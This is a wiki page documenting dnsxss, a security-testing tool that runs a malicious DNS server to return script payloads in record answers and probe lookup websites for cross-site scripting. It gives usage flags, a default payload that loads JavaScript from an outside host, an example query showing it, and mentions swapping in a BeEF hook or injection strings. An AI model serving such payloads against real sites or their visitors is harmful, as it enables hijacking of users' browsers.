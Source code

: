 ```yaml
---
title: 'Wiki: Dnsxss'
author: ron
layout: wiki
permalink: "/wiki/Dnsxss"
date: '2024-08-04T15:51:38-04:00'
redirect_from:
- "/wiki/index.php/Dnsxss"
---
```


## Intro

[dnsxss](dnsxss "wikilink") is designed to send back malicious responses to DNS queries in order to test DNS lookup servers for common classes of vulnerabilities. By default, dnsxss returns a string containing some Javascript code to all MX, CNAME, NS, and TEXT requests, in the hopes that the DNS lookup will be displayed in a browser.

When I originally wrote this, I tested it on a handful of Internet sites. Every one of them was vulnerable.

I haven\'t tried testing other vulnerabilities, like SQL injection or shell injection, but I suspect that this is a great attack vector for those and other vulnerabilities, because people don\'t realize that malicious traffic can be returned.

## Usage

    ./dnsxss [-t <test string>]
     -a <address>
        The address sent back to the user when an A request is made. Can be used
        to disguise this as a legitimate DNS server. Default: 127.0.0.1.
     -aaaa <address>
        The address sent back to the user when an AAAA (IPv6) request is made. Can
        be used to disguise this as a legitimate DNS server. Default: ::1.
     -d <domain>
        The domain to put after the test string. It should be the same as the
        one that points to your host.
     -h
        Help
     --payload <data>
        The string containing the HTML characters, that will ultimately test for
        the cross-site scripting vulnerability. Ultimately, this can contain any
        type of attack, such as sql-injection. One thing to note is that DNS
        generally seems to filter certain characters; in my testing, anything with
        an ASCII code of 0x20 (Space) or lower was replaced with an escaped
        /xxx, and brackets had a backslash added before them.
        Default:
        <script src='http://www.skullsecurity.org/test-js.js'></script>
        Note that unless a TEXT record is requested, spaces are replaced with
        slashes ('/'), which work in Firefox but not IE.
     --keep-spaces
        By default, spaces in the payload are replaced with slashes ('/') because
        the DNS protocol doesn't like spaces. Use this flag to bypass that
        filter.
     --test <domain>
        Test to see if we are the authoritative nameserver for the given domain.
     -u --username
        The username to use when dropping privileges. Default: nobody.
     -s --source <address>
        The local address to bind to. Default: any (0.0.0.0)
     -p --port <port>
        The local port to listen on. I don't recommend changing this.
        default: 53

------------------------------------------------------------------------

## Examples

Running this program without arguments returns a pretty typical cross-site scripting string:

    $ dig @localhost -t TXT test
    [...]
    ;; ANSWER SECTION:
    test.                   1       IN      TXT     "<script src='http://www.skullsecurity.org/test-js.js'></script>.test"

This will display a messagebox on the user\'s screen alerting them to the issue. You can change the payload using the \--payload argument and point it at, for example, a BeEF server.

## Authoritative DNS server {#authoritative_dns_server}

Many functions of this tool require you to be the authoritative nameserver for a domain. This typically costs money, but is fairly cheap and has a lot of benefits. If you aren\'t sure whether or not you\'re the authority, you can use the \--test argument to this program, or you can directly run the [dnstest](dnstest "wikilink") program, also included.
